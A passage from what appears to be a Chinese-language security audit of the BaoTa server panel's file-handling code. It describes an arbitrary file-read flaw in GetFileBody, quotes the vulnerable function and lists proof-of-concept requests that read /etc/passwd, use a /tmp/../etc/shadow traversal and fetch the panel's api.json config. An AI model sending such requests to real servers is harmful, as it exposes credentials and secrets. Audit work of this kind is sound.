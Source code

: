 3. 使用白名单而非黑名单来验证文件名
4. 实现严格的MIME类型检查
5. 设置文件操作的chroot环境，限制访问范围

#### 漏洞4.3.2: 任意文件读取风险

**文件路径**: `/Users/anwu/Documents/code/security/baota/panel_extracted/panel/class/files.py`  
**行号**: 128-145  
**漏洞类型**: 任意文件读取 (CWE-22)  
**严重程度**: 高危 (CVSS 7.8)

**漏洞代码**:
```python
def GetFileBody(self, get):
    """
    @name 获取文件内容
    @author hwliang<2021-08-09>
    @param get<dict_obj> 请求数据
    @return string
    """
    if not 'path' in get: return public.ReturnMsg(False, 'path参数不存在')
    if not 'encoding' in get: get.encoding = 'utf-8'
    try:
        if get.path.find('/tmp/') != 0: get.path = self.__get_path(get)
        if not self.__check_following_links(get.path): return public.returnMsg(False, '禁止使用软链接访问外部文件或目录,文件路径所有父级目录及当前目录不能存在软链接文件')
        if get.encoding == 'auto':
            encoding = self.get_encoding(get.path)
        else:
            encoding = get.encoding
        return public.readFile(get.path, encoding)
    except Exception as ex:
        return public.ReturnMsg(False, '文件读取失败: {}'.format(str(ex)))
```

**漏洞描述**:  
`GetFileBody`函数存在潜在的文件读取风险。虽然代码中对软链接有一定检查，但对于路径检查不全面：
1. 如果路径以`/tmp/`开头，会跳过`__get_path`函数的检查
2. `__check_following_links`仅检查软链接，不检查直接的路径遍历
3. 缺少对文件类型的检查

**漏洞利用(PoC)**:
1. 直接读取系统敏感文件：
```
GET /files/get_file_body?path=/etc/passwd
```

2. 利用`/tmp/`检查的绕过：
```
GET /files/get_file_body?path=/tmp/../etc/shadow
```

3. 尝试读取应用程序配置文件：
```
GET /files/get_file_body?path=/www/server/panel/config/api.json
```

